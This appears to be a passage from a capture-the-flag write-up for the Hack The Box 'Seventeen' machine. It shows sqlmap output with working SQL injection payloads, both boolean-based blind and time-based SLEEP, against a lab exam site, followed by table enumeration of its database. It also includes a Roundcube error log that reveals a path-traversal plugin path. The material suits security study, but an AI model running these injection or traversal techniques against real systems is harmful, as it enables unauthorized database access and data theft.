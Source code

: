 [11:07:54] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/exam.seventeen.htb'

[*] ending @ 11:07:54 /2022-07-20/
```

Dump tables:
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://exam.seventeen.htb/?p=take_exam&id=1" -D db_sfms --tables                                                                         1 ⨯
        ___
       __H__                                                                                                                                                
 ___ ___[)]_____ ___ ___  {1.6.6#stable}                                                                                                                    
|_ -| . [)]     | .'| . |                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:33:56 /2022-07-20/

[11:33:56] [INFO] resuming back-end DBMS 'mysql' 
[11:33:56] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=0c890e4ca8a...8d98f1d01e'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 1565=1565 AND 'Vlli'='Vlli

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=take_exam&id=1' AND (SELECT 8047 FROM (SELECT(SLEEP(5)))Verc) AND 'RSwQ'='RSwQ
---
[11:33:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: PHP 7.2.34, Apache 2.4.38, PHP
back-end DBMS: MySQL >= 5.0.12
[11:33:58] [INFO] fetching tables for database: 'db_sfms'
[11:33:58] [INFO] fetching number of tables for database 'db_sfms'
[11:33:58] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:33:58] [INFO] retrieved: 3
[11:33:59] [INFO] retrieved: storage
[11:34:01] [INFO] retrieved: student
[11:34:03] [INFO] retrieved: user
Database: db_sfms
[3 tables]
+---------+
| user    |
| storage |
| student |
+---------+


[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)